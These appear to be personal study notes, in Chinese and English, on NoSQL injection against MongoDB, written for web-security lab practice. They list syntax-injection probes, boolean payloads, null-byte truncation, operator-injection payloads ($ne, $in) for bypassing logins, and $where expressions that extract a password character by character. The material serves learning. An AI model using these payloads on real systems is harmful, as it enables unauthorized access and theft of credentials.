 ## NoSQL injection
- MongoDB
-  JSON 查詢
  
- **Syntax injection**
    - 注入您自己的有效載荷
    - 提交模糊字串和特殊字符
 
- **Operator injection**
    - 使用 NoSQL 查詢運算子

**Example :**
- https://insecure-website.com/product/lookup?category=fizzy
- this.category == 'fizzy'
- this.category == '\"`{\r;$Foo}\n$Foo \\xYZ\u0000
- https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00

## Syntax injection
### 查詢哪些字元會被應用程式解釋為語法
- 注入單一字元 [`] : this.category == '''
  - 如果這導致原始回應發生變化，則可能表示該'字元破壞了查詢語法並導致了語法錯誤
  - Retest : this.category == '\''
 
### 確認條件行為
- 假 : ' && 0 && 'x (lookup?category=fizzy'+%26%26+0+%26%26+'x)
- 真 : ' && 1 && 'x (lookup?category=fizzy'+%26%26+1+%26%26+'x)
- 真 JavaScript 條件，例如 '||'1'=='1 (this.category == 'fizzy'||'1'=='1')

### Attack 
- 新增一個空字元 : %00
  - https://insecure-website.com/product/lookup?category=fizzy'%00
  - this.category == 'fizzy'\u0000' && this.released == 1

### Lab: Detecting NoSQL injection
- Ctrl U = url encode
- 有效負載: Gifts'+'
- 布林條件: Gifts' && 0 && 'x | Gifts' && 1 && 'x
- Gifts'||1||'

## Operator injection
### 運算符
- $where- 符合滿足 JavaScript 表達式的文件
- $ne- 符合所有不等於指定值的值
- $in- 符合數組中指定的所有值
- $regex- 選擇值與指定正規表示式相符的文件 <br>

**Method :**
- 巢狀物件插入 :{"username":{"$ne":"invalid"}}
-  URL 的輸入: username[$ne]=invalid
-  將請求方法從 轉換GET為POST。
-  將標題更改Content-Type為application/json。
-  將 JSON 新增到訊息正文。
-  在 JSON 中註入查詢運算 <br>

**Example :**
- {"username":"wiener","password":"peter"}
- {"username":{"$ne":"invalid"},"password":"peter"}
- {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
- {"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

**Lab: Exploiting NoSQL operator injection to bypass authentication**
- 
## 擷取數據 
- 將 JavaScript 函數注入查詢
- 某些查詢運算子或函數可以執行有限的 JavaScript 程式碼
- MongoDB 的$where運算子和mapReduce()函數。

**Example :** 
- 傳回使用者密碼字串的第一個字符 : admin' && this.password[0] == 'a' || 'a'=='b
- 識別密碼是否包含數字 : admin' && this.password.match(/\d/) || 'a'=='b
